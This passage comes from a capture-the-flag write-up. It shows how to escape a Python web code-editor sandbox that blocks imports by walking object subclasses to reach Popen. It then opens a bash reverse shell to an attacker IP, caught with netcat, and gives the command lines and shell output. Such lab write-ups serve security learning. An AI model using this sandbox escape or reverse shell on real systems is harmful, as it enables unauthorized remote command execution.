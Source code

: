 The scan had no result other that what is already know. Proceeding with further enumeration on the web application, we know that `import` is not allowed. There are ways to execute system commands without the need of modules. Here comes the base subclasses of Python.

```python
print((()).__class__.__base__.__subclasses__())
```

The output of this code will list all the available subclasses, including the `popen` module which is part of the `subprocess` module.
We will need to find the index of the `Popen` subclass, in order to make calls. For this purpose a simple python script is written to print each subclass and the class index.

```python
classes = (()).__class__.__base__.__subclasses__()

for class_index in range(len(classes)):
    print(class_index, (()).__class__.__base__.__subclasses__()[class_index].__name__)
```

The output is a huge list of classes with their corresponding indexes. The web page interface is not able to show all of them. In this way we can search for the index of `Popen` using `burpsuite`, by executing the script on its embedded browser, and then navigating to Proxy > HTTP History, to inspect the response.

Taking a look at the response, the index of `Popen` has been found.

```
class index 317 Popen\n
```

The `Popen` class index is `317`, and now it's possible to call the class and execute system commands, as arguments.

The Python `subprocess` [documentation](https://docs.python.org/3/library/subprocess.html) explains in detail the module.

---

## Exploitation

Since the index of `Popen` is found, it's time to test the exploit by spawning a reverse shell.

Setting up a listener with `nc -lvnp 8888`, the following Python command is written on the editor, calling `Popen` to execute the command in its arguments.

```python
(()).__class__.__base__.__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/10.10.14.186/8888 0>&1'", shell=True)
```

The listener gets a response with a reverse shell waiting for us.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.186] from (UNKNOWN) [10.129.245.206] 49520
bash: cannot set terminal process group (2058): Inappropriate ioctl for device
bash: no job control in this shell
app-production@code:~/app$
```
